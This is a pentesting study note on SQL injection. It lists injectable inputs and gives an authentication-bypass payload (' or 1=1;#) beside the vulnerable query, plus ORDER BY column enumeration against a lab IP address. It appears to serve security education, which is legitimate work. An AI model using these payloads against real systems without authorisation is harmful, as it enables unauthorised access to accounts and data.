 >[!warning]
>SQL Injection is a common web application vulnerability that is caused by **unsanitized user input being inserted into queries** and subsequently passed to a database for execution.
>
>Pre-requisite: [SQL 101](../Dev,%20scripting%20&%20OS/SQL%20101.md)

---

## Find and exploit SQL Injections

Possible inputs:

- GET parameters
- POST parameters
- HTTP Headers (like User-agent)
- Cookies
- ...

Insert special query characters like `' " # \ -` and observe if some SQL errors are triggered or the application behave differently.

>[!tip] Test SQL payload online
>Dynamic SQL testing online: http://sqlfiddle.com/ [^demo]

[^demo]: [Test SQL queries online against the specified DB](https://youtu.be/61kf4CEnOZk?si=7heW6R8LN0pkQth3&t=1291), IppSec

---

## Authentication Bypass

Vulnerable query:

```sql
select * from users where name = 'tom' and password = 'jones';
```

Exploited query:

```sql
select * from users where name = 'tom' or 1=1;#' and password = 'jones';
```

Sometimes clause `LIMIT 1` is necessary if the login function require only one result

---

## UNION base SQLi

### Column number enumeration

In traditional SQLi vulns we have to figure out how many field the query is managing and where they are placed within the code. In order to find how many field the query extracts we can abuse the `ORDER BY` function in conjunction with a Boolean base SQLi.

```bash
http://10.11.0.22/debug.php?id=1 order by 1		# No error
http://10.11.0.22/debug.php?id=1 order by 2		# No error
http://10.11.0.22/debug.php?id=1 order by 3		# No error
http://10.11.0.22/debug.php?id=1 order by 4		# ERROR --> query manage 3 field
```


[^hacktricks-article]: [No commas bypass](https://book.hacktricks.xyz/pentesting-web/sql-injection#no-commas-bypass), book.hacktricks.xyz
[^ippsec-video]: [SQL Injecting Beyond Strict Filters - Union Without Comma](https://www.youtube.com/watch?v=61kf4CEnOZk), IppSec